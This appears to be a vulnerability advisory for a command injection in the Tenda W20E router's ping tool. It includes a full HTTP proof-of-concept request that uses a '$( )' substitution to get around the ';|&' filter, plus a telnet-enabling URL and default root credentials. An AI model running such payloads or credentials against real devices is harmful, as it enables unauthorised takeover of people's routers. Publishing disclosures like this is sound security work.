




# Tenda W20E Command injection vulnerability
## Overview
- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address ：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
There is a Command injection vulnerability in tenda W20E V16.01.0.6(3392), which can execute arbitrary command in route system.
## Affected version



Figure shows the latest firmware ：V16.01.0.6(3392)

## Vulnerability details
open telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function do_ping_action:



The program passes the contents obtained by the hostName parameter to hostname.   
There is some filtering of parameters is judged by if, but we can bypass it, which is explained in the next section.  
Then, copy the content of hostname through the strncpy function into cfg.hostname.  
And cfg is called by function cmd_get_ping_output().  
In function cmd_get_ping_output：


Then, format the matching content of cfg.hostname through the snprintf function into new_cmd_buf.  
The new_cmd_buf is called by popen().  
There is a command injection vulnerability.   
The corresponding web page is as follws:



## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.
In the judgment of If, you can see that the characters(; | &) are filtered, and if these characters are included, code will goto fail.
But we can use '$' to do Command injection.  

The functional data packets are as follows, and we will use this to construct poc.  
```http
POST /goform/module?1668695093889 HTTP/1.1
Host: 192.168.0.1
Content-Length: 87
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=70ebc4f9c9d22827a5874d1bb6f06abddwdvmy; bLanguage=cn; sessionid=W20Ev5:0.167.3:6b0846
Connection: close

{"setFixTools":{"networkTool":1,"hostName":"test$(touch /tmp/test0)","packageSize":32}}
```

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:



Figure shows POC attack effect, the file test0 is created.


## CVE-ID
unsigned